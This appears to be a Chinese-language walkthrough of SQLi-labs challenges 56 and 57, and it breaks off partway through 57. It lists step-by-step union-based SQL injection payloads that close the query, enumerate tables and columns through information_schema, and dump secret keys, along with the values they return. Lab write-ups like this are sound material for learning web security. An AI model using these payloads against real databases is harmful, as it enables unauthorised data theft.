 获取key

`0) union select 1,2,group_concat(secret_6H3B) from UBU4QNRHHP %23mLjAsOZnSEbQqIMybw1AnUYH`

***

# less 56()
## 原理



## 步骤
`id=1') union select 1,2,3 %23 `

获取表

`0%27)%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23  `

`KOUNR4QC6G`

获取列

`0') union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='KOUNR4QC6G'%23`
`secret_3EVD`

获取key

`0') union select 1,2,group_concat(secret_3EVD) from KOUNR4QC6G %23`

`KcU87wBerjRPTHsvWBL6Zpx1`


***
# less 57(GET-challenge-Union-14 queries allowed-Variation 4)
## 原理
改变闭合

## 步骤

获取表

`0" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges'%23`

`VAFBXAV18O`

获取列

`0" union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='VAFBXAV18O'%23`
